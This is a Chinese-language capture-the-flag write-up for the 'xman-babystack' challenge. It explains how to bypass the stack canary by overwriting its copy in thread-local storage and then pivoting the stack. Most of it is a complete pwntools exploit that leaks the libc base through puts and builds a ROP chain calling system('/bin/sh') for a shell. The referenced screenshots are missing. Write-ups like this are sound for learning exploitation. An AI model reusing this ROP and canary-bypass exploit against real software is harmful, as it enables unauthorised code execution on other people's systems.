



# 标题

> xman-babystack

## **原理**
stack pivot

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**



由上图可见，存在一个溢出的问题。



查看保护机制的开启情况，发现 canary开着。

想要溢出，就要绕过canary。 

有一个知识点就是：由于多线程中Canary存入TLS结构体，而TLS位于多线程内部栈的高地址，并且该结构体与当前栈差距不足一个page，导致我们能对其进行修改，改为我们想要的值，从而绕过检测。

思路就是：利用溢出，修改canary。然后进行stack pivot。

那我们如何找到 存入tls结构体的canary的偏移呢？



可以运行一下elf文件，然后查看一下canary。算一下偏移，大概就能知道payload要写多长了。


完整exp：

```
from pwn import *
context(os='linux', arch='i386', log_level='debug')
p = process("./bs")

elf = ELF("./bs")
libc = ELF("./bs_libc.so.6")

main = 0x4009e7
buf=0x602300
pop_rdi_ret = 0x0000000000400c03
pop_rsi_r15_ret =0x0000000000400c01
leave_ret=0x400955
puts_got = elf.got["puts"]
puts_plt = elf.plt["puts"]
puts_libc = libc.symbols["puts"]
sys_libc = libc.symbols["system"]
bin_libc = libc.search("/bin/sh").next()
read = elf.plt["read"]

p1=p64(pop_rdi_ret)+p64(puts_got)+p64(puts_plt)
p2=p64(pop_rdi_ret)+p64(0)+p64(pop_rsi_r15_ret)+p64(buf+0x8)+p64(0)+p64(read)+p64(leave_ret)
payload=p1+p2

p.recvuntil("How many bytes do you want to send?")
p.sendline(str(0x17f0))
p.send("a"*0x1010+p64(buf)+payload+ "a"*(0x17f0-0x1010-len(payload)))

p.recvuntil("It's time to say goodbye.\n")

puts=u64(p.recvline()[:6]+"\x00\x00")#-0x6f690
print "puts address---->"+hex(puts)
libbase = puts - puts_libc
print "libbase address---->"+hex(libbase)

system=libbase+sys_libc
binsh=libbase+bin_libc

p.sendline(p64(pop_rdi_ret)+p64(binsh)+p64(system))
p.interactive()

```

## **参考阅读**

